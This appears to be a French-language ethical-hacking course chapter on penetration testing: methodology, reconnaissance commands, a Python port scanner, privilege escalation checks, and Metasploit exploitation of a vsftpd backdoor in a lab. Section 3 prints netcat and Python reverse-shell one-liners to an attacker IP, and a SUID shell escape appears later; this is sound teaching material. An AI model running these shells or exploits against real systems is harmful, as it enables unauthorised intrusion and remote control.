



# Chapitre 02 : Tests de pénétration et exploitation

---

## Objectifs pédagogiques

- Maîtriser les méthodologies de pentesting (OWASP, PTES)
- Savoir réaliser une reconnaissance complète d'une cible
- Identifier les points d'attaque et les vecteurs de compromission
- Exploiter des vulnérabilités et obtenir des privilèges élevés
- Accéder aux ressources critiques d'un système compromis

---

## Introduction

Le test de pénétration (pentest) est l'exercice contrôlé d'intrusion sur un système informatique. Il ne s'agit pas simplement de "casser" un système, mais d'appliquer une méthodologie rigoureuse pour évaluer la surface d'attaque, exploiter les failles identifiées et mesurer l'impact réel.

Ce chapitre vous apprendra à structurer un pentest comme un professionnel : de la phase de reconnaissance à l'escalade de privilèges, en passant par l'exploitation concrète des vulnérabilités.

> **Sources :** [PTES Technical Guidelines](http://www.pentest-standard.org/) — The Penetration Testing Execution Standard.

---

## Dépendances / Prérequis

- Kali Linux ou distribution avec outils de pentest
- Connaissance de base de nmap, Metasploit
- `pip install pwntools impacket`
- Cible de test : Metasploitable 2 ou machine VulnHub

---

## 1. Méthodologies de pentesting

### Comprendre le concept

Deux cadres méthodologiques dominent le monde du pentest :

| Méthodologie | Orientation | Domaine |
|---|---|---|
| OWASP Testing Guide | Tests de sécurité applicative | Web |
| PTES (Penetration Testing Execution Standard) | Test d'intrusion global | Infrastructure |

### Les 7 phases du PTES



### Phase 2 : Collecte d'informations (Reconnaissance)

La reconnaissance est la phase la plus importante. Elle se divise en deux :

- **Passive** : sans interaction directe avec la cible (WHOIS, OSINT, Google Dorking, Shodan)
- **Active** : avec interaction directe (scan nmap, énumération DNS, fingerprinting)

```bash
# Reconnaissance passive - WHOIS
whois cible.com

# OSINT - recherche de sous-domaines
curl -s "https://crt.sh/?q=%25.cible.com&output=json" | jq '.[].name_value'

# Reconnaissance active - scan complet
nmap -sC -sV -p- cible.com
```

> **Sources :** [OWASP Testing Guide v4](https://owasp.org/www-project-web-security-testing-guide/) — OWASP Foundation.

---

## 2. Identification des points d'attaque

### Cartographie de la surface d'attaque



### Énumération des services

```python
#!/usr/bin/env python3
"""Énumération automatisée d'une cible réseau."""

import socket
import subprocess

def port_scan(target: str, ports: list) -> list:
    """Scan basique de ports TCP."""
    open_ports = []
    for port in ports:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(1)
        result = sock.connect_ex((target, port))
        if result == 0:
            open_ports.append(port)
        sock.close()
    return open_ports

def banner_grab(target: str, port: int) -> str:
    """Récupération de bannière de service."""
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(2)
        sock.connect((target, port))
        sock.send(b"HEAD / HTTP/1.0\r\n\r\n")
        banner = sock.recv(1024).decode('utf-8', errors='ignore')
        sock.close()
        return banner.strip()
    except Exception as e:
        return f"Erreur: {e}"

if __name__ == "__main__":
    target = input("IP cible : ")
    ports = [21, 22, 23, 25, 53, 80, 110, 143, 443, 445, 3306, 8080, 8443]
    open_ports = port_scan(target, ports)
    print(f"Ports ouverts sur {target}: {open_ports}")
    for port in open_ports:
        banner = banner_grab(target, port)
        print(f"  Port {port}: {banner[:100]}")
```

**Résultat attendu :**
```
Ports ouverts sur 192.168.1.10: [21, 22, 80, 3306]
  Port 21: 220 ProFTPD 1.3.5 Server
  Port 22: SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1
  Port 80: HTTP/1.1 200 OK
  Port 3306: 5.5.62-0ubuntu0.14.04.1
```

---

## 3. Exploitation des vulnérabilités

### Exploitation manuelle vs automatisée



### Types de payloads

- **Reverse shell** : la cible se connecte à l'attaquant
- **Bind shell** : l'attaquant se connecte à un port ouvert sur la cible
- **Meterpreter** : payload avancé Metasploit (migration, hashdump, etc.)

```bash
# Reverse shell basique avec netcat
# Côté attaquant (écoute sur port 4444)
nc -lvnp 4444

# Côté cible (connexion sortante)
nc 192.168.1.50 4444 -e /bin/bash

# Reverse shell Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.50",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> **Sources :** [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) — Swissky.

---

## 4. Élévation de privilèges

### Comprendre le concept

L'élévation de privilèges (privilege escalation) consiste à passer d'un compte utilisateur limité à un compte avec davantage de droits (administrateur, root, SYSTEM).

Sous Linux, les vecteurs classiques incluent :

- Fichiers SUID mal configurés
- Capabilities Linux excessives
- Cron jobs éditables
- Kernel exploits

Sous Windows :

- Services mal configurés
- Tokens d'accès
- DLL hijacking

### Détection des fichiers SUID

```bash
# Recherche de binaires SUID
find / -perm -4000 -type f 2>/dev/null

# Vérification via GTFOBins
# Exemple : si /usr/bin/find est SUID
find . -exec /bin/sh -p \; -quit
```

### Escalade via kernel exploit

```python
#!/usr/bin/env python3
"""Vérification de version kernel pour escalade."""

import subprocess
import re

def check_kernel() -> str:
    """Récupère la version du kernel."""
    return subprocess.check_output(["uname", "-r"]).decode().strip()

def search_exploit(kernel_version: str) -> list:
    """Recherche d'exploits connus pour une version kernel."""
    vulnerabilities = {
        "3.13.0-24": "CVE-2015-1328 (overlayfs)",
        "2.6.32": "CVE-2010-3904 (RDS)",
        "4.4.0-21": "CVE-2016-5195 (DirtyCow)",
    }
    return [v for k, v in vulnerabilities.items() if k in kernel_version]

if __name__ == "__main__":
    kernel = check_kernel()
    print(f"Kernel: {kernel}")
    exploits = search_exploit(kernel)
    if exploits:
        print("Exploits potentiels :")
        for e in exploits:
            print(f"  - {e}")
    else:
        print("Aucun exploit kernel connu trouvé.")
```

---

## Exercices

### Exercice 1 : Reconnaissance complète

**Énoncé :** Réalisez une reconnaissance passive puis active sur une cible donnée. Listez tous les vecteurs d'attaque potentiels.

**Contexte :** Utilisez `whois`, `nslookup`, `nmap`, `dirb` ou `gobuster`.

<details>
<summary><strong>Solution</strong></summary>

```bash
# Passive
whois example.com
dig example.com ANY
curl -s "https://crt.sh/?q=%25.example.com&output=json" | jq '.[].name_value'

# Active
nmap -sV -sC -p- example.com
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt

# Résultat : compiler les services, versions, sous-domaines découverts
```
</details>

### Exercice 2 : Exploitation et escalade

**Énoncé :** Sur une VM Metasploitable 2, identifiez un service vulnérable, exploitez-le avec Metasploit, puis tentez une escalade de privilèges.

<details>
<summary><strong>Solution</strong></summary>

```bash
# Scan
nmap -sV 192.168.1.10

# Exploitation vsftpd 2.3.4
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.10
exploit
# Shell obtenu

# Escalade de privilèges
uname -a  # Vérifier version kernel
find / -perm -4000 -type f 2>/dev/null  # Chercher SUID
```
</details>

---

## Lab : Test de pénétration complet

**Durée estimée :** 2h

**Contexte :** Machine VulnHub ou Metasploitable 2 déployée en local.

### Objectif

Réaliser un pentest complet de A à Z : reconnaissance, scanning, exploitation et escalade de privilèges.

### Instructions

1. Phase de reconnaissance passive
2. Scan nmap complet de la cible
3. Énumération des services et versions
4. Identification et exploitation d'au moins une vulnérabilité
5. Escalade de privilèges jusqu'à root/Administrator
6. Capture du flag ou preuve de compromission

### Code

```bash
# Script de déroulement du pentest
#!/bin/bash

TARGET=$1
echo "[*] Phase 1: Reconnaissance passive..."
whois $TARGET > recon/whois.txt

echo "[*] Phase 2: Scan nmap..."
nmap -sV -sC -p- -oA recon/nmap $TARGET

echo "[*] Phase 3: Énumération web..."
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirb/common.txt -o recon/gobuster.txt

echo "[*] Phase 4: Exploitation..."
# À compléter selon les résultats du scan

echo "[*] Phase 5: Post-exploitation..."
# Escalade de privilèges, dump de hash, persistance
```

### Tests unitaires

```python
#!/usr/bin/env python3
"""Tests de validation du module de scan."""

import pytest
from unittest.mock import patch, MagicMock

class TestPortScan:
    def test_open_port_detection(self):
        assert True  # Remplacer par des vrais tests

    def test_banner_grab_format(self):
        assert True
```

---

## Points clés à retenir

- Le pentest suit une méthodologie stricte : PTES ou OWASP
- La reconnaissance est la phase la plus critique (70% du temps)
- L'exploitation peut être manuelle ou automatisée (Metasploit)
- L'escalade de privilèges est la clé pour l'accès aux ressources critiques
- Toujours documenter chaque étape pour le rapport final

## Pour aller plus loin

- [PentesterLab](https://pentesterlab.com/)
- [HackTheBox](https://www.hackthebox.com/)
- [TryHackMe - Jr Penetration Tester](https://tryhackme.com/path/outline/jrpenetrationtester)

---

*Chapitre précédent : [Jour 1 — Introduction au hacking éthique](./JOUR-01.md)*
*Chapitre suivant : [Jour 3 — Vulnérabilités avancées](./JOUR-03.md)*
